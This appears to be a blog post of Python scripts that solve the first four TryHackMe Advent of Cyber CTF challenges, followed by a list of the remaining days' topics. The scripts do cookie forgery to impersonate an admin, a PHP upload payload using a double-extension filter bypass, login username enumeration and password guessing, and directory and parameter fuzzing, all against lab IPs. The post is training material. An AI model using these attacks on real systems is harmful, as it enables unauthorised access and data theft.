




TryHackMe is back this year with another 25 days of beginner CTF challenges featuring some guest challenge authors. Another great daily challenge to get your cyber-skillz fresh during the holidaze. I will probably post some updates here of cool python hacks and automations to these challenges.

<!--more-->



Jump to a Day:
| [1](#day-1)
 | [2](#day-2)
 | [3](#day-3)
 | [4](#day-4)
 | [5](#day-5)
 | [6](#day-6)
 | [7](#day-7)
 | [8](#day-8)
 | [9](#day-9)
 | [10](#day-10)
 | [11](#day-11)
 | [12](#day-12)
 | [13](#day-13)
 | [14](#day-14)
 | [15](#day-15)
 | [16](#day-16)
 | [17](#day-17)
 | [18](#day-18)
 | [19](#day-19)
 | [20](#day-20)
 | [21](#day-21)
 | [22](#day-22)
 | [23](#day-23)
 | [24](#day-24)
 | [25](#day-25)

## Day 1 ##

### Christmas Crisis - web exploitation

> Understand how the web works and take back control of the Christmas Command Centre!

There will be lots of walkthroughs posted for these, I am sure like JohnHammonds [video](https://youtu.be/BJF84oWHmok), but here is my python code to automate the solves.


Here are the highlights:

- Generate a random user name and register for an account
- Login with the generated accounted
- View the cookie, specifically the name (one of the questions)
- Decode the cookie
- Hack the cookie for Santa and print the hex string
- Access the site as Santa
- Enable all the services (if they are not currenlty on)
- Access the flag

```python
#!/usr/bin/env python3

import requests
import os
import json
from binascii import hexlify, unhexlify
import re

# From the deployed box in TryHackMe
url = "http://10.10.231.43/"

import requests

# Headers from BurpSuite, converted from Curl to Requests
# https://curl.trillworks.com/

headers = {
    'Host': '10.10.231.43',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    'Accept': 'application/json',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://10.10.231.43/',
    'Content-Type': 'text/plain;charset=UTF-8',
    'Origin': 'http://10.10.231.43',
    'Content-Length': '41',
    'Connection': 'close',
}


s = requests.session()
r = s.get(url)

# Register for account for a random user
username = hexlify(os.urandom(8)).decode()
data = '{"username":"%s", "password":"password"}' % username
r = s.post(url + '/api/adduser',data=data, headers=headers)

# Log in a new user
r = s.post(url + '/api/login', data=data, headers=headers)

# Access home page to see cookie
r = s.get(url)
originalcookie = s.cookies
for c in s.cookies:
    print(f"The cookie name is {c.name}").

# Decode the cookie, convert to dictionary, change username
target = json.loads(unhexlify(s.cookies['auth']).decode())
target['username'] = 'santa'
cookies = hexlify(json.dumps(target,separators=(', ', ':')).encode())
print(f"Santas cookie is {cookies.decode()}")

# Create hacked cookie to access Santa's account
cookies = {'auth':cookies.decode()}

# Reset session for new cookie
s = requests.session()

# Check if the flag is visible
# (Needed when running multiple times)
r = s.post(url + '/api/checkflag', cookies=cookies)

# Iterate through the services to enable flag
if 'flag' not in r.text:

    services = [
        'Part Picking',
        'Assembly',
        'Painting',
        'Touch-up',
        'Sorting',
        'Sleigh Loading'
        ]

    for service in services:
        data = '{"service":"%s"}' % service
        r = s.post(url + '/api/service', data=data, cookies=cookies)

# Pull the flag from the site now that services are enabled
flag = re.findall('THM{[^\}]*}',r.text)
if flag:
    print(f"The Flag is {flag[0]}")

```

When you run this you get the following answers [redacted]...

```
The cookie name is auth
Santas cookie is 7b22636f6d70616e79......6d70616e79222c2022757365726e616d65223a2273616e7461227d
The Flag is THM{MjY0......M1NjBmZWFhYmQy}

```

 

## Day 2 ##

### The Elf Strikes Back - web exploitation

> Learn about basic file upload filter bypasses by performing a security audit on the new security management server!

This one was a slight challenge to automate with the upload function being hidden in the obfuscated javascript. But, looking at the traffic, I was able to reproduce the `POST` request.



Here are the highlights:

- Access the site using the `id` parameter provided
- Generate a random filename for the payload and double
- Create a php payload to cp the `/var/www/flag.txt` file to the uploads directory with random name.
- Generate base64 encoded string from the php payload
- Craft POST data include payload and double file extension path
- Access the php file the `/uploads` folder
- Access the copy of the flag file in the uploads folder.
 

```python
#!/usr/bin/env python3

import requests
import os
from base64 import b64encode
from binascii import hexlify
import time

url = "http://10.10.242.121"

s = requests.session()

code = "ODIzODI5MTNiYmYw"
params = {'id':code}

r = s.get(url, params=params)

fn = hexlify(os.urandom(8)).decode()

payload = f"<?php system('cp /var/www/flag.txt /var/www/html/uploads/{fn}.txt');?>"
payload = b64encode(payload.encode())

data = """
{
   "name":"%s.jpg.php",
   "id":"ODIzODI5MTNiYmYw",
   "mime":"application/x-php",
   "body":"data:application/x-php;base64,%s"
}
""" % (fn, payload.decode())

r = s.post(url+ '/upload',data=data)
r = s.get(url + f'/uploads/{fn}.jpg.php')
r = s.get(url + f'/uploads/{fn}.txt')

print (r.text)
```

When you run the script you get the flag file with a message from [MuirlandOracle](https://twitter.com/MuirlandOracle) and the string to submit to the challenge site.

```
==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2U........TAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================

```


## Day 3 ##

### Christmas Chaos - web exploitation

> Hack the hackers and bypass a login page to gain admin privileges.

This one was super fun to automate, as I was able to solve it without even opening the site in a browswer. Of course, I did not use **burpsuite** which was a learning objective of the challenge. But oh well. Also I was able to pull all the information for the form from the html using _beautifulsoup_ (request method and login end-point).



Here are the highlights:
- Access the site, extract the form from the response
- Get the form action and form method
- Extract the input fields of the form
- Submit provided usernames with known bad password.
- Don't follow redirects and see response on status of username
- Identify the correct username
- Submit known username with provided passwords
- Don't follow redirects and see response on status of password
- Submit known username and password, this time following redirects
- Grab flag using regular expression of known format
- Profit.


```python
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup as bs
import re

flagpattern = re.compile('THM{[^}]*}')

url = "http://10.10.51.66"

s = requests.session()
r = s.get(url)

soup = bs(r.text,features='lxml')

methods = {'post': s.post, 'get': s.get}

form = soup.find_all('form')[0]
inputs = [element['name'] for element in form.find_all('input') ]
form_url = form.get('action')
form_method = form.get('method')

usernames = ['root', 'admin', 'user']
passwords = ['root', 'password', '12345']

for username in usernames:
    password = "thisisnotthepassword"
    inputs = [element['name'] for element in form.find_all('input') ]
    payload = {}
    for i in inputs:
        payload[i] = vars()[i]
    r = methods[form_method](url + form_url, data = payload, allow_redirects=False)
    if 'username_incorrect' not in r.text:
        print(f'Username found to be {username}')
        break

for password in passwords:
    inputs = [element['name'] for element in form.find_all('input') ]
    payload = {}
    for i in inputs:
        payload[i] = vars()[i]
    r = methods[form_method](url + form_url, data = payload, allow_redirects=False)
    if 'password_incorrect' not in r.text:
        print(f'Password found to be {password}')
        break

r = methods[form_method](url + form_url, data=payload)
match = flagpattern.findall(r.text)
if match:
    print(f'Flag is {match[0]}')

```

Running the scripts we get the following output and [redacted] flag.

```
Username found to be admin
Password found to be 12345
Flag is THM{885ff...9d8fe99ad1a}

```

## Day 4 ##

### Santa's watching - web exploitation

> You're going to learn how to use Gobuster to enumerate a web server for hidden files and folders to aid in the recovery of Elf's forums. Later on, you're going to be introduced to an important technique that is fuzzing, where you will have the opportunity to put theory into practice.

So, this one could be automated, but I added one cheat to let it run faster since I did not feel like writing a threaded application. I did not use gobuster or wfuzz like the learning objectives, since my goal is to python it if possible. The cheat was to assume "api" was in the folder name cutting the list from ~20,000 to 28.



Here are the highlights:
- Read in all words from the provided wordlists
- Use all words that contain "api" and test url + word
- If the status code is not `404`, save that word
- Access the site at url + saved word, its a directory listing
- Grab all links to other files
- Itierate over those file using the dates from the wordlist as date parameter
- Match the output for the TryHackMe Flag
- Profit!


```python
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup as bs
import re

url = 'http://10.10.44.41/'
flagpatt = re.compile('THM{[^}]*}')

s = requests.session()

with open('big.txt') as f:
    big = f.read().splitlines()

for b in big:
    if 'api' in b:
        r = s.get(url + b)
        if r.status_code != 404:
            break

api = b

r = s.get(url + b)

soup = bs(r.text,features='lxml')

links = []
for link in soup.findAll('a', attrs={'href': re.compile("\w*\.\w*")}):
    links.append(link.get('href'))

with open('wordlist') as f:
    fuzzes = f.read().splitlines()

for link in links:
    r = s.get(url + link)
    for fuzz in fuzzes:
        r = s.get(url + api + '/' + link, params={'date':fuzz})
        match = flagpatt.findall(r.text)
        if match:
            print(f'Working file in /{api} found at {link}')
            print(f'flag {match[0]} found at {fuzz}')
            break
```

Running the script provides the following output with the answers redacted.

```
$ ./solve.py
/api got a 200
Working file in /api found at si........og.php
flag THM{D4...1} found at 20201125
```

## Day 5 ##
- Web
- Someone stole Santa's gift list!
- Learn to detect and exploit one of the most dangerous web vulnerabilities!
- SQLi PHP

## Day 6 ##

- Web
- Be careful with what you wish on a Christmas night
- Get familiar with compromising user interactions with vulnerable applications by executing custom javascript code.
- Javascript XSS

## Day 7 ##

- Special
- Coal for Christmas
- Kris Kringle checked his Naughty or Nice List, and he saw that more than a few sysadmins were on the naughty list! He went down the chimney and found old, outdated software, deprecated technologies and a whole environment that was so dirty! Take a look at this server and help prove that this house really deserves coal for Christmas!
- By John Hammond, a special contributor
- DirtyCow Privilege Escalation

## Day 8 ##

- Networking
- The Grinch Really Did Steal Christmas
- Understand a few of the technologies that power the internet! Use this knowledge to track the activity of the Grinch who stole christmas!
- Wireshark Packet Analysis

## Day 9 ##

- Networking
- What's Under the Christmas Tree?
- Practice the most fundamental stage of penetration testing: information gathering, using industry standard tools/techniques.
- NMAP

## Day 10 ##

- Networking
- Anyone can be Santa!
- Discover a common misconfiguration on file transfer servers, and understand how it may be abused.
- FTP

## Day 11 ##

- Networking
- Don't be Elfish!
- Get hands-on with Samba, a protocol used for sharing resources like files and printers with other devices.
- SMB

## Day 12 ##

- Networking
- The Rogue Gnome
- We've got intial access, but now what? Learn some of the common linux privilege escalation techniques used to gain permissions to things that we shouldn't..
- Privilege Escalation Linux

## Day 13 ##

- Networking
- Ready, set, elf.
- Learn how vulnerabilities can be identified, use public knowledgebases to search for exploits and leverage these on this Windows box; So quit slackin' and get whackin'!
- Public Exploits

## Day 14 ##

- Special
- Where's Rudolph?
- Twas the night before Christmas and Rudolph is lost
- Now Santa must find him, no matter the cost
- You have been hired to bring Rudolph back
- How are your OSINT skills? Follow Rudolph's tracks...
- By The Cyber Mentor, a special contributor
- OSINT

## Day 15 ##

- Scripting
- There's a Python in my stocking!
- Utilise Santa's favourite type of snake: Pythons to become a scripting master expert!
- Python

## Day 16 ##
- Scripting
- Help! Where is Santa?
- Santa appears to have accidentally told Rudolph to take off, leaving the elves stranded! Utilise Python and the power of APIs to track where Santa is, and help the elves get back to their sleigh!
- Requests

## Day 17 ##
- Reverse Eng
- ReverseELFneering
- Learn the basics of assembly and reverse engineer your first application!
- GDB Linux

## Day 18 ##
- Reverse Eng
- The Bits of the Christmas
- Continuing from yesterday, practice your reverse engineering.
- GDB Linux

## Day 19 ##
- Special
- The Naughty or Nice List
- Santa has released a web app that lets the children of the world check whether they are currently on the naughty or nice list. Unfortunately the elf who coded it exposed more things than she thought. Can you access the list administration and ensure that every child gets a present from Santa this year?
- By Tib3rius, a special contributor
- Web SSRF

## Day 20 ##
- Blue Teaming
- PowershELlF to the rescue
- Understand how to use PowerShell to find all that was removed from the stockings that were hidden throughout the endpoint.
- Powershell

## Day 21 ##
- Blue Teaming
- Time for some ELForensics
- Understand how to use PowerForensics to find clues as to where the naughty list was hidden.
- Forensics

## Day 22 ##
- Blue Teaming
- Elf McEager becomes CyberElf
- You have found where the naughty list has been hidden online but it's encoded. Learn how to decode the contents of this file using CyberChef.
- Cyberchef Encoding

## Day 23 ##
- Blue Teaming
- The Grinch strikes again!
- As the day draws near the Grinch is desperate. He used his secret weapon and launched a ransomware attack crippling the endpoints. Understand what is VSS and how it is used to recover files on the endpoint.
- Volume shadow copy service Windows forensics

## Day 24 ##
- Special
- The Trial Before Christmas
- Ready for one last challenge to make sure you've earned your presents this year? Use the skills gained throughout Advent of Cyber to prove your mettle and conquer day twenty four!
- By DarkStar7471, a special contributor
- Web Linux


